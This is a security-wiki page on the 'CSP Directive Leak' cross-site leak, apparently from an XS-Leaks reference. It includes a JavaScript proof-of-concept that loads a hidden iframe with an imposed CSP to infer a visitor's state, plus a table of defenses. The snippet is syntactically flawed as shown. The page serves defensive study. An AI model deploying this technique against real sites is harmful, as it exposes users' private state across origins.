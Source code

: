 +++
title = "CSP leaks"
description = ""
category = "Attack"
abuse = [
    "CSP Violations",
]
defenses = [
    "SameSite Cookies"
]
menu = "main"
weight = 2
+++

## CSP Directive Leak

iframe elements have a csp attribute which specifies the [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) that an embedded document must agree to enforce upon itself. 

Without using the `Allow-CSP-From` header an embedder is not allowed to set a more restrictive policy on to an iframe,
For most directives so by trying to apply `img-src 'https://example.com';` to the iframe csp attribute it will refuse to load unless it’s only allowing images from that source this can be detected with the onload event. [Run demo](https://xsinator.com/testing.html#CSP%20Directive%20Leak)

This can be abused if csp attrbutes are set conditionally on user state and embedding is allowed.

```javascript
async function ifResticts(url, csp='default-src \'self\';') => {
    return new Promise((r)=> {
        let i = document.createElement('iframe');
        // attempt to enforce a csp onto the iframe.
        i.setAttribute('csp', csp);
        i.src = url;
        // Hide the iframe
        i.hidden = true;
        
        // get inital history length
        let h0 = history.length;

        // max history is 50 
        if(h0 > 48){
            throw new Error('History to long')
        }

        i.onload = () => {
            // overwrite onload
            i.onload = () => {
                // the length will not increase on a page error such as when not allowed to apply a CSP.
                let h1 = history.length
                i.remove();
                return r(h1 - h0);
            }

            // reload
            i.src = url;
        }
        document.body.append(i);
    });
}
```
{{< hint info >}}
As of November 2022, Firefox doesn't support the csp attribute for an [iframe](https://developer.mozilla.org/en-US/docs/Web/API/HTMLIFrameElement/csp).
{{< /hint >}}


## Defense

| [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
| :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
|                                         ✔️                                         |                         ❌                          |                                ✔️                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |
